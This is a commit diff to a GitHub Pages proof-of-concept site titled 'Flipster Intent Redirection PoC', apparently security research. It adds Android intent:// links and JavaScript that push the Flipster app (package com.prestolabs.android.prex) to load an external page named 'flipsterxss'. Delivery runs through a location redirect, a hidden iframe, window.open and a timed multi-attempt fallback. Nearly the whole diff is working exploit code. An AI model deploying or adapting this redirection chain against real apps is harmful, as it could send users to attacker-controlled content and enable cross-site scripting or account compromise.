

Before and after one commit to xaleraf4ra/test-poc.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update intent links and methods in index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,26 +6,55 @@
 </head>
 <body>
     <h2>Flipster Intent Redirection PoC</h2>
-    <p><a href="https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/">
-        1. Direct HTTPS link
+
+    <p><a href="intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end">
+        1. Intent link
     </a></p>
-    <p><button onclick="tryIntent()">2. Open via Intent</button></p>
-    <p><button onclick="autoOpen()">3. Auto-redirect</button></p>
+
+    <p><a href="intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;action=android.intent.action.VIEW;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;end">
+        2. Intent with component
+    </a></p>
+
+    <p><button onclick="method1()">3. Location redirect</button></p>
+
+    <p><button onclick="method2()">4. Iframe method</button></p>
+
+    <p><button onclick="method3()">5. Window.open</button></p>
+
+    <p><button onclick="method4()">6. Multi-attempt</button></p>
+
     <script>
-    function tryIntent() {
-        var w = window.open("https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/", "_blank");
-        if (!w) {
-            window.location.href = "https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/";
-        }
+    var target = "intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end";
+    var direct = "https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/";
+
+    function method1() {
+        window.location.href = target;
     }
-    function autoOpen() {
-        var iframe = document.createElement("iframe");
-        iframe.style.display = "none";
-        iframe.src = "intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end";
-        document.body.appendChild(iframe);
+
+    function method2() {
+        var i = document.createElement("iframe");
+        i.style.display = "none";
+        i.src = target;
+        document.body.appendChild(i);
+    }
+
+    function method3() {
+        window.open(target, "_self");
+    }
+
+    function method4() {
+        var i = document.createElement("iframe");
+        i.style.display = "none";
+        i.src = target;
+        document.body.appendChild(i);
+
         setTimeout(function() {
-            window.location.href = "https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/";
-        }, 2000);
+            window.location.href = target;
+        }, 1000);
+
+        setTimeout(function() {
+            window.location.href = direct;
+        }, 3000);
     }
     </script>
 </body>
```
